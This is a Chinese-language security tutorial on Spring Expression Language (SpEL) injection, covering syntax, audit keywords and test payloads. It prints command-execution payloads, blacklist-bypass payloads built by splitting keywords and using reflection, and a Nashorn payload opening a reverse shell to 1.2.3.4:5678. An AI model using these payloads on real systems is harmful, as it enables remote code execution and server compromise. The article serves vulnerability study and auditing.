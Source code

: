 #  SpEL 表达式注入漏洞   
原创 信安魔方  锐鉴安全   2025-04-24 04:45  
  
声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
  
请大家关注公众号支持，不定期有宠粉福利  
  
  
Part-01  
  
    基础  
知识  
     
  
  
Spring 表达式语言(Spring Expression Language,SpEL)是一种功能强大的表达式语言,用于在运行时查询和操作对象图,语法上类似于 Unified EL,但提供了更多的特性,特别是方法调用和基本字符串模板函数。  
  
  
SpEL 表达式语法  
  
1)使用量表达式  
  
在 SpEL 表达式中,我们可以直接使用量表达式:  
  
```
"#{'Hello World'}"
```  
  
  
  
2)使用 java 代码 new/instance of  
  
在 SpEL 表达式中,我们可以直接使用 Java 代码 new/instanceof:  
```
Expression exp = parser.parseExpression("new Spring('Hello World')");
```  
  
  
3)使用 T(Type)  
  
同样的,在 SpEL 表达式中可以使用“T(Type)”来表示 java.lang.Class 实例,常用于引用常量和静态方法：  
```
parser.parseExpression("T(Integer).MAX_VALUE");
```  
  
  
在 SpEL 中可以使用#bean_id 来获取容器内的变量。同时,还存在两个特殊的变量#this 和 #root,分别用来表示使用当前的上下文和引用容器的 root 对象:  
```
String result2 = parser.parseExpression("#root").getValue(ctx, String.class);
String s = new String("abcdef");
ctx.setVariable("abc",s);
parser.parseExpression("#abc.substring(0,1)").getValue(ctx, String.class);
```  
  
  
SpEL 中可以使用 T()操作符声明特定的 Java 类型,一般用来访问 Java 类型中的静态属性或静态方法。括号中需要包含类名的全限定名,也就是包名加上类名。唯一例外的是,SpEL 内置了 java.lang 包下的类声明,也就是说,java.lang.String 可以通过 T(String)访问,而不需要使用全限定名。  
因此,我们通过 T()调用一个类的静态方法,它将返回一个 Class Object,然后再调用相应的方法或属性。同样的,SpEL 也可以对类进行实例化,使用 new 可以直接在SpEL 中创建实例,创建实例的类要通过全限定名进行访问:  
```
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression("new java.util.Date()");
Date value = (Date) exp.getValue();
System.out.println(value);
```  
  
  
产生 SpEL 表达式注入漏洞的大前提是存在 SpEL 的相关库,因此我们在审计时可以针对这些库进行搜索,并跟踪器参数是否可控。根据常用的库,可以总结出以下常见关键字。  
```
org.springframework.expression.spel.standard
SpelExpressionParser
parseExpression
expression.getValue()
expression.setValue()
```  
  
  
      
  
     
   
Part-02  
  
SpEL 验证  
  
  
产生 SpEL 表达式注入漏洞的另一个主要原因是,很大一部分开发人员未对用户输入进行处理就直接通过解析引擎对 SpEL 继续解析。一旦用户能够控制解析的 SpEL 语句,便可通过反射的方式构造代码执行的 SpEL 语句,从而达到 RCE 的目的。  
SpEL 漏洞的危害有:任意代码执行、获取 SHELL、对服务器进行破坏等。  
  
  
一般来讲,在测试 SpEL 表达式注入漏洞时,我们可以通过插入以下 POC 来检测是否存在 SpEL 表达式注入漏洞:  
```
${255*255}
T(Thread).sleep(10000)
T(java.lang.Runtime).getRuntime().exec('command')
T(java.lang.Runtime).getRuntime().exec("nslookup qianxin.com")
new java.lang.ProcessBuilder("command").start()
new java.lang.ProcessBuilder({'nslookup qianxin.com'}).start()
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup xxx.com')
```  
  
  
在 SpEL 表达式注入漏洞的实际利用中,会存在一个十分常见的情况:网站存在黑名单校验。此时攻击者需要通过各种方法绕过黑名单的关键词检测或语义检测。对于常见的基于正则的黑名单匹配绕过是相对简单的,可利用以下两种方法构造 Payload。  
  
  
1.利用反射与拆分关键字构造 Payload  
```
#{T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(S
tring).getClass().forName("java.l"+"ang.Ru"+"ntime") .getMethod("getRu"+"ntime").invoke(T(String).getClass().
forName("java.l"+"ang.Ru"+"ntime")), new
String[]{"/bin/bash","-c","command"})}
```  
  
  
2.利用 ScriptEngineManager 构造 Payload  
```
#{T(javax.script.ScriptEngineManager).newInstance() .getEngineByName("nashorn") .eval("s=[3];s[0]='/b
in/bash';s[1]='-c';s[2]='ex"+"ec 5<>/dev/tcp/1.2.3.4/5678;cat <&5 | while read line; do $line 2>&5 >&5;
done';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")}
```  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
